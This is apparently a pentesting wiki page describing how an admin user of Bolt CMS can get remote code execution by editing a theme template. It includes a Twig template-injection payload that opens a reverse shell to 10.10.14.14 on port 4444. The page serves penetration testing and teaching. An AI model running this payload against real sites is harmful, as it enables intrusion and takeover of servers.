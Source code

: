 # Bolt CMS





## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

* Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  * Check the value of theme

<figure><img src="../../.gitbook/assets/image (771).png" alt=""><figcaption></figcaption></figure>

* Select `File management` -> `View & edit templates`
  * Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  * In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
* Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  * And save changes

<figure><img src="../../.gitbook/assets/image (948).png" alt=""><figcaption></figcaption></figure>

* Clear the cache in `Maintenance` -> `Clear the cache`
* Access again the page as a regular user, and the payload should be executed




